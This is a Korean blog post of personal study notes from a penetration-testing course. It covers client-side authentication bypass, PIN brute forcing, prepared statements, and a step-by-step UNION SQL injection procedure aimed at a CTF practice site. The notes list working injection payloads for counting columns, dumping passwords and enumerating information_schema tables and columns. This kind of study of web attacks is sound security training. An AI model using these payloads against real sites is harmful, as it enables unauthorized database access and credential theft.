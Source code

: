 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[TIL] 정리"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-20
last_modified_at: 

tags: [TIL]
---
```


클라이언트 측 인증

분리
내가 비밀번호를 바꿀 수 있던지
비밀번호를 알아내던지

어떤 방식으로 고민을 해야 하는가?
어떻게 동작하느냐? -> 직접 만들어보기
sql query문 직접 실행해보기
왜 됐는 지 확인하기
1. 문제 원인 찾기
2. 문제 해결하기

하나씩

burp how to modify response

남들의 문제는 원인을 생각하지 마라

https://www.redirhub.com/ko/blog/redirect-types-and-seo-effects-2
https://developer.mozilla.org/ko/docs/Web/HTTP/Redirections

pincode crack 문제 직접 만들어보기
오류 횟수의 제한이 없다
-> 횟수의 제한을 두려면 어떻게 만들어야 하는가?

sql injection
-> prepared statement
1. db를 사용하는 곳
2. 그 데이터가 화면에 나오는가? 안 나오는가?
    1. 게시판
    2. 로그인, 아이디 중복체크 등

웹페이지에 데이터가 나오는 경우에서 데이터를 추출하는 방법
union
join은 안되냐??

order by
출력되는 데이터 정렬할 때 사용
SELECT ~ ORDER BY [COLUMN]

UNION SQL INJECTION
Process
1. sql injection 포인트 찾기
' and '1' = '1
2. column 개수 찾기
' order by 1...n #
3. 출력되는 column 위치 찾기
' union select 1, 2, 3, 4 #
-> select 1, 2, 3, 4가 왜 정상적으로 작동하는 거야???
-> ' union select 1, pass, 3, 4 from member #
4. db 이름 확인
select database()
-> ' union select 1, database(), 3, 4 from member #
5. table 이름 확인
select table_name from information_schema.tables where table_schema = [DB 이름]
-> ' union select 1, table_name, 3, 4 from information_schema.tables where table_schema = [DB 이름] #
6. column 이름 확인
select column_name from information_schema.columns where table_name = [table 이름]
-> ' union select 1, column_name, 3, 4 from information_schema.columns where table_name = [table 이름] #
7. data 추출

과제
1. admin is mine -> 풀이과정 블로그 작성
1. union sql injection 복습
2. doldol 데이터만 출력하기 하나만 나오게
ctf.segfaulthub.com:1020/sqlinjection_2_1.php
3. ctf 문제 풀기
